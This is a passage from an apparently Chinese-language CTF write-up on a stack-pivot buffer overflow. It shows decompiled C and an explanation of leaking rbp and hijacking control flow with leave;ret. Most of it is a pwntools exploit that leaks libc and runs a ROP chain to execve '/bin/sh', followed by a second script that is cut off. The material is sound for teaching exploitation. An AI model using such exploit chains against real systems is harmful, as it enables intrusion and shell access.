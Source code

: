 ```c++
    int sub_400676()
    {
    char buf; // [rsp+0h] [rbp-50h]

    memset(&buf, 0, 0x50uLL);
    putchar('>');
    read(0, &buf, 0x60uLL);
    return puts(&buf);
    }
```

函数的溢出点在函数sub_400676()中，read 能读入 96 位, 但 buf 的长度只有 80, 因此能覆盖 rbp 以及 ret addr 但也只能覆盖到 rbp 和 ret addr, 因此也只能通过同时控制 rbp 以及 ret addr 来进行 rop 了

当输入的长度为 80 时, 由于 read 并不会给输入末尾补上 '\0', rbp 的值就会被 puts 打印出来，leak 出栈地址后, 就可以通过控制 rbp 为栈上的地址 ret addr 为 leave ret 的地址来实现控制程序流程了。由于利用过程中栈的结构会发生变化, 所以一些关键的偏移还需要通过调试来确定

```python
    from pwn import *
    context.binary = "./over.over"

    def DEBUG(cmd):
        raw_input("DEBUG: ")
        gdb.attach(io, cmd)

    io = process("./over.over")
    elf = ELF("./over.over")
    libc = elf.libc

    io.sendafter(">", 'a' * 80)
    stack = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - 0x70
    success("stack -> {:#x}".format(stack))


    #  DEBUG("b *0x4006B9\nc")
    io.sendafter(">", flat(['11111111', 0x400793, elf.got['puts'], elf.plt['puts'], 0x400676, (80 - 40) * '1', stack, 0x4006be]))
    libc.address = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - libc.sym['puts']
    success("libc.address -> {:#x}".format(libc.address))

    pop_rdi_ret=0x400793
    '''
    $ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret"
    0x00000000000f5279 : pop rdx ; pop rsi ; ret
    '''
    pop_rdx_pop_rsi_ret=libc.address+0xf5279


    payload=flat(['22222222', pop_rdi_ret, next(libc.search("/bin/sh")),pop_rdx_pop_rsi_ret,p64(0),p64(0), libc.sym['execve'], (80 - 7*8 ) * '2', stack - 0x30, 0x4006be])

    io.sendafter(">", payload)

    io.interactive()

    ## 类似解
    from pwn import *
    from LibcSearcher import *
    context.binary = './over'
    io = process("./over")
    elf = ELF("./over")


    io.sendafter(">", 'a' * 80)
```